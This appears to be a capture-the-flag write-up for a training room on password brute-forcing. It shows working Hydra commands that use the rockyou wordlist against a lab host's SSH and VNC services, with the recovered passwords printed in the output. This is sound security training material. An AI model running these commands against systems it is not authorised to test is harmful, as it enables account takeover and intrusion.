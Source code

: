 ```yaml
---
title: Day 05 - Brute Force
desc: >-
  Day 5 covers topics related to brute-forcing passwords using Hydra in order to
  connect to remote services like SSH, RDP, and VNC.
---
```

## Introduction
Common attacks against passwords are presented below:

1. *Shoulder Surfing*: Observing and noting as a target inputs their credentials. This attack requires the least technical knowledge.

2. *Password Guessing*: People generally practice poor password practices by using personal details such as birth date or children's names as their passwords. Guessing the password of such users requires some knowledge of the target’s personal details.

3. *Dictionary Attack*: This approach expands on password guessing and attempts to include all valid words in a dictionary or a word list.

4. *Brute Force Attack*: This attack is the most exhaustive and time-consuming, where an attacker can try all possible character combinations.

Trying out `Hydra` example provided:

```text
┌──(siachen㉿kali)-[~/CyberSec/THM]
└─$ hydra -l alexander -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 10.10.232.4 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-05 09:20:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.232.4:22/
[22][ssh] host: 10.10.232.4   login: alexander   password: sakura
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 9 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-05 09:21:51
```

## CTF Questions

Used Hydra to brute-force VNC password. 

!!! note
    VNC does not require a user name.

```text
┌──(siachen㉿kali)-[/dev/shm]
└─$ hydra -P /usr/share/wordlists/rockyou.txt 10.10.232.4 vnc
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-05 09:26:45
[WARNING] you should set the number of parallel task to 4 for vnc services.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking vnc://10.10.232.4:5900/
[STATUS] 552.00 tries/min, 552 tries in 00:01h, 14343847 to do in 433:06h, 16 active
[5900][vnc] host: 10.10.232.4   password: 1q2w3e4r
[STATUS] attack finished for 10.10.232.4 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-05 09:29:10
```
Log-in to VNC using credentials found by Hydra. The flag is displayed on the desktop background image.